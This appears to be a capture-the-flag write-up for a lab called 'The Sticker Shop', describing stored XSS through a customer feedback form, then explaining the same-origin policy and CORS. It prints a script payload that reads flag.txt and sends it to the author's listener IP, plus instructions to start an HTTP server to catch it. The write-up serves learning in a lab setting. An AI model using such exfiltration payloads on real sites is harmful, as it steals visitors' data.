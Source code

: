 # The Sticker Shop

### The sticker shop is finally online!
- What is the content of flag.txt?<br />
Initial scan shows port 22 and 8080 open:<br />
![image](https://github.com/user-attachments/assets/3c226334-4a0a-4938-8bc6-990b96401200)<br />
Looking at the webpage, there's a page to send customer feedback:<br />
![image](https://github.com/user-attachments/assets/18c3de7a-9635-46ff-a8da-edd3f4526399)<br />
Since the room is suggesting that the developers use the same computer for hosting the website and for looking at customer feedback, my first guess is that I need to do XSS. <br />
After some time of trying payloads, the correct one to get the flag is provided in the file named `payload` in this folder. Remember to change the script to adapt to your IP address and to first open a web server with `python3 -m http.server PORT`<br />
![image](https://github.com/user-attachments/assets/92871c0f-5ccf-454a-a8ce-392bd540f844)<br />

### What I've learned
I honestly thought that the right payload could also be the following: 

    <script>
    fetch('http://10.10.17.174:8080/flag.txt')
        .then(response => response.text())
        .then(data => {
            fetch('http://10.11.85.53:8001/?flag=' + encodeURIComponent(data));
        })
    </script>
Where the only difference is that instead of the local IP address `127.0.0.1`, I put `10.10.17.174`, which is the IP address of my target machine instance. I spent hours trying to make it work, but it didn't. Why didn't it work? The reason is called **same origin policy(SOP)**.<br /><br />
Same Origin Policy is a security measure implemented by web browsers that allows **JavaScript code executed on a web page to access resources only from the same origin**, which encompasses the same domain, protocol, and port combination.<br />
Suppose I send a request to `http://example.com/index.html`, and then the html of this page contains a script like the following: 

    <script>
    fetch('http://api.otherdomain.com/secret-data.json')
      .then(response => response.text())
      .then(data => console.log('Content:', data))
    </script>  
Technically, at this point my browser should execute this javascript, and make a request to `http://api.otherdomain.com/secret-data.json`. However this does not happen, because every modern browser, including mine, implements SOP. In this case, my browser can see that I made a request to `http://example.com`, but then I need to execute a javascript code and fetch data from another domain. Everytime a website wants me to fetch a resource, my browser checks if that resource is from the same protocol(http), domain(example.com) and port(80) of the original website. Since `api.otherdomain.com` is different from `example.com`, my browser won't fetch the resource. This policy prevents requests between different origins and restricts browser-based attacks. <br /><br />
In the case of this CTF, the victim(the staff)'s browser probably accessed the webpage not with `http://10.10.17.174`, but with `http://127.0.0.1`. This means that first, the staff views the feedback page(by fuzzing the server with XSS payloads I found out a `/view_feedback` directory). This page would then contain our injected javascript, that tries to fetch data from `10.10.17.174`, which even if is technically the same resource, to the browser it is different from `127.0.0.1`. This is the reason why it didn't work, and I'm happy I learned something new. <br /> <br />
Another thing. To overcome the limitations imposed by the SOP, **Cross-Origin Resource Sharing (CORS)** was introduced. CORS allows a web browser to relax the restrictions and grant access to its resources for requests coming from a different origin. It is an HTTP header-based mechanism.<br />
When a web browser makes a request to a different origin (domain, protocol, or port), the browser initiates a CORS process to determine if the requested resource should be accessible. The server, in response, includes the `Access-Control-Allow-Origin` header in its HTTP response. This header specifies the allowed origins that are permitted to access the requested resource.




